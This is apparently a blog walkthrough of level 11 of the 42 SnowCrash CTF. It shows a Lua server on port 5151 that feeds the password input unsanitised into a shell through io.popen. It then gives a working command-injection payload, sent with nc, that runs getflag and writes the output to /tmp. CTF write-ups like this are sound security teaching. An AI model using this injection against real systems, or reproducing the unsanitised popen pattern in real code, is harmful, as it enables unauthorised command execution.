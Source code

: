 ```yaml
---
title: 42 SnowCrash Level11 - Walkthrough
tags:
  - ctf
  - snowcrash
  - command-injection
  - lua
  - script
  - exploit
categories:
  - ctfs
  - 42project
date: 2024-05-19 13:26:27
---
```


## Introduction

In Level 11, we are provided with a Lua script that starts a server on port 5151. The objective is to exploit a security vulnerability in this script to gain unauthorized access.

## Step-by-Step Guide
### Step 1: Understanding the Lua Script

First, let's examine the Lua script located in the home directory of Level 11. The script starts a server on port 5151.

Here is the content of the Lua script:
```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end

while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end
  end

  client:close()
end
```

### Step 2: Identifying the Vulnerability
The vulnerability lies in the hash function, specifically in this line:
```lua
prog = io.popen("echo "..pass.." | sha1sum", "r")
```
The input pass is directly concatenated into a shell command without any sanitization, leading to a command injection vulnerability.
Step 3: Exploiting the Vulnerability

To exploit this vulnerability, we can inject a command to redirect the output of the getflag command to a temporary file.

When you connect to the server on port 5151, you are prompted to enter a password. Since the input is not sanitized, we can inject our payload.

Here is the exploit command:
```lua
echo -e "\$(getflag > /tmp/level12flag)" | nc localhost 5151 && cat /tmp/level12flag
```

Step 4: Executing the Exploit
    1. Open a terminal and run the following command to connect to the server and inject the payload:
```sh
echo -e "\$(getflag > /tmp/level12flag)" | nc localhost 5151
```
    2. The `getflag` command's output will be redirected to `/tmp/level12flag`.

    3. Next, read the contents of the file to get the flag for Level 12:
```sh
cat /tmp/level12flag
```

### Summary

In this walkthrough, we identified and exploited a command injection vulnerability in a Lua script provided in Level 11 of the Snowcrash project. By injecting a malicious command, we were able to redirect the output of the getflag command to a file and retrieve the flag for the next level.

Feel free to reach out if you have any questions or need further clarification on any steps. Good luck with your continued learning and hacking journey!

